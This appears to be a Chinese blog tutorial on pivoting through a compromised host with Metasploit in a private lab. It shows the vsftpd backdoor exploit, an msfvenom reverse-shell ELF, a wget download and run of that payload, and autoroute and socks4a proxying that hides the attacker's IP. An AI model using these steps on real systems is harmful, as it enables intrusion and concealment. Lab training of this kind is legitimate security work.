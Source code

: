 ```yaml
---
layout: post
category: binghe-code-hack
title: Meterpreter以被控制的计算机为跳板渗透其他服务器
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Meterpreter以被控制的计算机为跳板渗透其他服务器
lock: need
---
```


# Meterpreter以被控制的计算机为跳板渗透其他服务器

攻击机：Kali 192.168.75.10

跳板： Metasploitable2 192.168.75.130

目标机： Windows Server 2012 192.168.75.140

这里无法通过Kali(192.168.75.10)主机直接访问目标机(192.168.75.140)，目标机只能通过跳板(192.168.75.130)访问，这里Kali(192.168.75.10)已经成功渗透跳板(192.168.75.130)主机，需要将已渗透主机(192.168.75.130)设置为跳板来访问目标机(192.168.75.140)。

如果直接通过攻击机(192.168.75.10)访问目标机(192.168.75.140),会出现如下错误：

![img](https://img-blog.csdnimg.cn/20190114124851544.png)

这里，跳板(192.168.75.130)拥有连接目标机(192.168.75.140)权限。因此需要一些方法将我们对目标机(192.168.75.140)发起的请求通过跳板(192.168.75.130)转发出去，需要的这种技术方法就是跳板技术。

这里，我们首先要渗透跳板(192.168.75.130)主机。具体步骤如下：

开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务，只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.75.130
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.75.10 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.75.10/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.75.10
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

下面，我们需要执行autoroute脚本，并使用-s将脚本的参数设定为目标主机(192.168.75.140)的IP地址，这样我们就可以在已经被我们渗透的跳板机(192.168.75.130)上添加一条到达目标主机(192.168.75.140)的路由。

## 添加路由

```
run autoroute -p
run autoroute -s 192.168.75.140
run autoroute -p
```



以攻击者(192.168.75.10)的角度看，现在需要启动一个可以将请求通过Meterpreter发送给目标的模块。可以选择auxiliary/server/socks4a这个模块。

## 启动监听

在攻击机(192.168.75.10)上执行如下命令：

```
use auxiliary/server/socks4a
show options
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```

## 配置攻击机(192.168.75.10)/etc/proxychains.conf

添加下面一行配置：

```
socks4 127.0.0.1 1080
```



![img](https://img-blog.csdnimg.cn/20190114125602716.png)

## 配置Forefox代理

![img](https://img-blog.csdnimg.cn/20190114125618848.png)

再一次打开目标服务器(192.168.75.140)的限制目录下的网页。

![img](https://img-blog.csdnimg.cn/20190114125638407.png)

这里，我们就可以访问了。

接下来，我们访问下目标服务器(192.168.75.140)服务器的IP记录器，如下：

![img](https://img-blog.csdnimg.cn/20190114125656890.png)

可以看到是跳板(192.168.75.130)的IP地址，不管我们对目标服务器(192.168.75.140)做了什么，对目标服务器(192.168.75.140)眼中这一切都是跳板机(192.168.75.130)做的。然而，我们的真实IP确是192.168.75.10。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
